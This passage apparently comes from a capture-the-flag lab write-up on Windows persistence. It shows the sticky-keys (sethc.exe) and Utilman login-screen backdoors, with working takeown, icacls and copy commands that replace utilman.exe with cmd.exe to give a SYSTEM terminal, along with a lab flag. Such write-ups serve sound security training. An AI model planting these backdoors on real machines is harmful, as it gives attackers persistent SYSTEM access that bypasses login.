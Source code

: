 After doing so, lock your session from the start menu:

![lock session](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2faf2bec5763297beb7c921858900c57.png)

You should now be able to press `SHIFT` five times to access a terminal with SYSTEM privileges directly from the login screen:

![sethc backdoor](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5062148957ec1d70dccd080bdca93ddf.png)

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

From your newly obtained terminal, execute `C:\flags\flag14.exe` to get your flag!

Once we do all steps, we get our cmd:

![](gitbook/cybersecurity/images/Pasted%20image%2020250516114751.png)

Let's read our flag:

![](gitbook/cybersecurity/images/Pasted%20image%2020250516114855.png)

```
THM{BREAKING_THROUGH_LOGIN}
```

### Utilman

Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

![utilman](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/73c7698a015de5a988fd815ff3e41473.png)

When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.

To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:

```shell-session
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.
```

To trigger our terminal, we will lock our screen from the start button:

![lock session](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/1f94b28361ffebbf70d280755821bc12.png)
